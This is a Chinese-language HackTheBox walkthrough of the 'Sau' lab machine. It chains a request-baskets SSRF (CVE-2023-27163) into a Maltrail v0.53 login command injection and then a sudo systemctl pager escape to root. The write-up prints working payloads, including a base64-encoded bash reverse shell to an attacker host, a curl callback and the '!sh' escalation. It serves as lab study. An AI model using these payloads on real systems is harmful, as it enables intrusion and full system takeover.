





---
tags:
  - HTB/Linux
  - HTB/Easy
---

## Summary

...
### Attack Path Overview

{ width='450' }


## 扫描

自用扫描脚本：[工作流](./HTB-Busqueda.md#workflow-scan)

（前1万个）开放端口：
```bash
PORT      STATE    SERVICE REASON      VERSION
22/tcp    open     ssh     syn-ack     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http    no-response
8338/tcp  filtered unknown no-response
```

有点奇怪，浏览器访问了一下80端口确实没响应。于是另外扫了一下全端口，发现还有个 `55555/tcp` 是开放的。


## 攻击路径规划·漏洞分析

有点非常规？不过访问了一下 `10.10.11.224:55555`，会被定向到 `http://10.10.11.224:55555/web`，其实也就是个web应用。22端口本身优先度不高，那么先看看这个端口。


## 55555端口


由于是web应用，且不是常规80端口，应该不会有robots.txt之类的信息。大概率是研究他这个应用的功能。

不过先直接看看页脚有没有写关于这个应用的信息：`Powered by request-baskets | Version: 1.2.1`

### PoC (CVE-2023-27163)

谷歌一下“request-baskets version 1.2.1 exploit”，直接发现一个[github的PoC](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3)  
> POC: POST /api/baskets/{name} API with payload - {"forward_url": "http://127.0.0.1:80/test","proxy_response": false,"insecure_tls": false,"expand_path": true,"capacity": 250}  
> details can be seen: <https://notes.sjtu.edu.cn/s/MUUhEymt7>

说是SSRF，还附上了详细信息的链接。看了几遍都没懂怎么利用，于是还是回头研究一下这个web应用的功能。

### 研究网页功能

点了一下 `Create`，就会创建一个所谓的“basket”，并给了一个URL，访问这个URL后，请求的记录就会出现在这个管理界面。

顺便看burp的抓包可以发现，创建这个basket的POST请求正好是PoC里说的那个可以利用的API。  
而在这个管理界面上方有个设置按钮，点开可以发现里面的参数即对应PoC里payload的几个参数。



所以基本理清楚了PoC的利用方式。即创建一个接收请求的basket，并将它配置为你想forward的url，PoC文章里是“http://127.0.0.1:80/test”。而我们这台靶机也疑似运行着80端口，只是没有公开。所以如果我们将forward_url配置为“http://127.0.0.1:80”就有可能访问到那个本地的80端口。

### exploit尝试

最开始直接复制PoC的payload，仅更改了forward_url，然后访问我的basket URL后似乎毫无反应：
```bash
└─$ curl -XPOST http://10.10.11.224:55555/api/baskets/testt1 --data '{"forward_url": "http://127.0.0.1:80/","proxy_response": false,"insecure_tls": false,"expand_path": true,"capacity": 250}'
{"token":"slDpTH4PFTm5VvWg8_ouQxQAVfjA11yosY-XRQAJi451"}

└─$ curl http://10.10.11.224:55555/testt1

```

琢磨了半天，最终在Settings界面看到关于 `proxy_response` 参数的解释（下图），这么看的话这个界面的3个方框和capacity都是对于 `forward_url` 的配置。而刚刚的payload里是 `"proxy_response": false`，如果设置为true（即将这个设置勾上），那么应该在请求我们的basket URL之后，basket会将请求转发到 `forward_url` 并接收响应返回给我们。相当于是个代理。  
*不理解payload参数直接复制就用不可取啊……*  


### 本地80端口暴露

以及突然想到，既然PoC的payload即用POST API创建一个配置好的basket，那其实也可以不用命令行，直接在网页创建basket再更改设置，效果应该一样？  
于是试着在网页创建basket并按下图配置之后，访问我的basket（http://10.10.11.224:55555/poc11）。  


果然可以。成功暴露目标的本地80端口。  
本来以为一定要按照PoC的参数来，没想到Settings界面的capacity保持原本的200不变也行。  


很明显，这个80端口服务的页脚写着 `Maltrail (v0.53)`。


## Initial Access

### 本地8338端口 - PoC (Maltrail命令注入)

谷歌“Maltrail v0.53 exploit”，发现[PoC文章](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)。很清晰，即登陆界面的username参数有命令注入漏洞。  
PoC：
> curl 'http://hostname:8338/login' \  
>  --data 'username=;\`id > /tmp/bbq\`'

原来最开始nmap扫描结果里被filtered的8338就是这个Maltrail啊。都联系起来了！

那么测试一下8338这个命令注入。  
首先继续利用之前那个PoC，将basket的forward_url设置更改为 `http://127.0.0.1:8338/login`，让本地8338服务的目标URL暴露。  
既然是命令注入的话，先试试能否执行curl连到我的kali吧：

- 在kali用python简单开个http服务：`python -m http.server 80`
- 然后向basket发送payload：``curl -XPOST http://10.10.11.224:55555/poc11 --data 'username=;`curl 10.xx.xx.xx:80`'``  

python的http服务成功收到响应。  

那么再想想如何利用这个命令注入——既然能反连回来，那当然得弄个反弹shell看看。  
开启监听，不过试了好几条插入反弹shell的命令都无法执行成功，想着可能是特殊字符的问题，于是尝试传递base64再解码执行的方式。  
执行下面payload，成功get shell。其中 `<rshell-base64>` 的部分为 `/bin/bash -i >& /dev/tcp/10.xx.xx.xx/4444 0>&1` 的base64编码。

- payload：``curl -XPOST http://10.10.11.224:55555/poc11 --data 'username=;`echo "<rshell-base64>" |base64 -d |bash`'``  


## flag: user

进来的shell是puma用户权限，看一眼home目录只有puma，所以这就是有 user flag 的用户。

```bash
puma@sau:/opt/maltrail$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
puma@sau:/opt/maltrail$ ls /home
ls /home
puma
puma@sau:/opt/maltrail$ cat /home/puma/user.txt
cat /home/puma/user.txt
6a04……97b7
```


## Privilege Escalation

### 探索

基础探索一把梭：

- 用户家目录的隐藏文件：无
- SUID：无特别发现
- 无当前用户的凭据，不过姑且看了眼 `sudo -l`：竟然不需要输入密码？

```bash
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

### Shell Escape Sequences - sudo环境下的systemctl提权

可以发现有一条命令sudo执行是不要密码的，先尝试直接运行看看——输出了一堆像是进程命令的记录到屏幕……

在[GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo)上面搜 `systemctl` 也会很容易发现有sudo时的提权方式，但是由于我运行命令后似乎是所有结果都输出到了屏幕，然后直接回到prompt模式，所以我并不能按照它说的执行“!sh”进行提权。

又仔细看看[GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo)里的内容，注意到下面写了句“This invokes the default pager, which is likely to be less, other functions may apply.”。  
于是琢磨这个 `less`，既然less能翻页。那么提权失败是不是因为没有调用出所谓的“default pager”，所以之前运行命令才会一堆结果直接输出到屏幕？而没有调用“default pager”给我使用，可能是因为当前不是交互shell？

于是转为交互式shell之后再次尝试，果然就正常了。提权也按照[GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo)里的内容，十分简单：
```bash
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Sun 2023-07-09 05:26:40 UTC; 2h 13min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 889 (python3)
      Tasks: 93 (limit: 4662)
     Memory: 186.2M
     CGroup: /system.slice/trail.service
             ├─  889 /usr/bin/python3 server.py
             ├─  960 /bin/sh -c logger -p auth.info -t "maltrail[889]" "Failed >
             ├─  964 /bin/sh -c logger -p auth.info -t "maltrail[889]" "Failed >
             ├─  968 bash
             ├─  969 bash -c bash -i >& /dev/tcp/10.10.16.29/9001 0>&1
             ├─  970 bash -i
             ├─  981 /bin/sh -c logger -p auth.info -t "maltrail[889]" "Failed >
             ├─  982 /bin/sh -c logger -p auth.info -t "maltrail[889]" "Failed >
             ├─  984 bash
             ├─  985 bash -i
             ├─  997 python3 -c import pty;pty.spawn("/bin/bash")
             ├─  998 /bin/bash
             ├─ 4311 /usr/bin/systemctl status trail.service
             ├─ 4312 pager
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
```


## flag: root

```bash
# pwd
/opt/maltrail
# cd
# ls
go  root.txt
# cat root.txt
be4f……86de
```

---

## 总结·后记

2023/07/09

最近感觉只扫前一万个端口已经不能满足打HTB的需求啦，以后打靶干脆直接全端口，于是改了改扫描脚本。以及老是引用WP的链接每次有改动都有点麻烦，就将脚本上传到[仓库](https://github.com/TimeLess613/workflow-scan4HTB/blob/main/workflow-scan4HTB.sh)了。

这次靶机一个PoC反复用挺有意思的。

以及sudo -l不用密码还挺意外的，后来又去看了眼sudoers似乎也没相关配置，不是很懂：


*【穿越】后来稍微测试了一下，似乎无论什么命令只要是配置了 `(ALL : ALL) NOPASSWD`，那么就能无密码执行 `sudo -l`。更具体的就没试了。*

### systemctl提权的调查 - [CVE-2023-26604](https://nvd.nist.gov/vuln/detail/CVE-2023-26604)

在kali也尝试了一下GTFOBins里的方式提权，不过有什么限制导致无法输入感叹号。

于是调查systemctl与less的关系，以及为什么less界面无法输入感叹号等。  
根据下面的bug提交得知，`systemctl status <service>` 的结果显示本应要pipe给 `less` 进行分页展示的。  
> [Bug#836580: systemd: systemctl status pipes through less with escape sequences not applied](https://alioth-lists.debian.net/pipermail/pkg-systemd-maintainers/2016-September/031246.html)

而在less分页中，感叹号“!”是一个特殊命令，其后面的命令会被当做shell命令执行（和vi类似啊），所以有一定的防护措施。最终搜到了[这个](https://github.com/advisories/GHSA-8989-8fhv-vq42)。其中有提到systemd版本247之前都有漏洞，事后确认了一下靶机的systemd版本是245。

---

以及突然想起来在less的分页界面好像可以按“v”进入类似vi的编辑界面。而在vi编辑器可以用冒号输入命令，并且由于感叹号后的命令解析为shell命令，即用 `:!sh` 可以逃逸vi。这台靶机是否也可以？然而试了一下在less的分页界面按“v”进入编辑模式看看能否提权——不过当我按下“v”，会显示“Cannot edit standard input  (press RETURN)”……  